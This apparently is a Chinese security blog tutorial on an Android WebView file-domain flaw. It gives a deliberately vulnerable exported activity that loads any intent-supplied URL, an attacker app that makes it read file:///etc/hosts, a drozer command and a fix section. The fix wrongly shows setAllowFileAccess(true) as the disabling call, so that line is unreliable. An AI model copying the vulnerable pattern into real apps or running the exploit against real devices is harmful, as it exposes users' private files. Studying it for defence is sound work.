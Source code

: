 title: android webview file域控制不严格利用
abbrlink: 3957115657
date: 2019-04-29 13:37:55
tags: 
- android安全 
- webview
---
## webview file域控制不严格读取内部私有文件
必须条件：  
1.存在webview的activity组件可导出  
2.当前的webview允许使用file协议  

可利用app关键代码:  

```
android:exported="true"//api17及以上版本默认为false
webView.getSettings().setAllowFileAccess(true);//默认是true
```

MainActivity.java  

```
public class MainActivity extends AppCompatActivity {

    private WebView webView = null;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
//        setContentView(R.layout.activity_main);
        webView = new WebView(this);
        setContentView(webView);
        webView.setWebViewClient(new WebViewClient());
        webView.getSettings().setAllowFileAccess(true);
        Intent mIntent = this.getIntent();
        Bundle bundle = mIntent.getBundleExtra("bundle");
        String url = bundle.getString("url");
        webView.loadUrl(url);
    }
}
```
AndroidManifest.xml  

```
<activity android:name=".MainActivity" >
            <intent-filter>
                <action android:name="android.intent.action.MAIN" android:exported="true" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
```

攻击app关键代码:  

MainActivity.java

```

public class MainActivity extends AppCompatActivity {

    public static final String LOAD_URL="file:///etc/hosts";
//    public static final String BAIDU="https://www.baidu.com";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        ComponentName componentName = new ComponentName("com.demo.victim","com.demo.victim.MainActivity");
        Intent intent = new Intent();
        Bundle bundle = new Bundle();
        intent.setComponent(componentName);
        bundle.putString("url",LOAD_URL);
        intent.putExtra("bundle",bundle);
        startActivity(intent);

    }
}
```

利用:    
先安装可利用app在安装攻击app，在打开攻击app  
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/30/01.jpg)

修复:  
设置android:exported="false" 设置为不可导出  
webView.getSettings().setAllowFileAccess(true);明确禁用file协议

工具:  
使用drozer查看activity导出  
```
run app.activity.info -a com.xx.xx
```
代码:  
[webview](https://github.com/tea9/android_repetition/tree/master/webview)  

## LINNKS
[Android WebView File域同源策略绕过漏洞浅析](https://blog.csdn.net/jltxgcy/article/details/50678304)  
[WebView域控不严格读取内部私有文件实验](https://www.freebuf.com/articles/terminal/160061.html)  
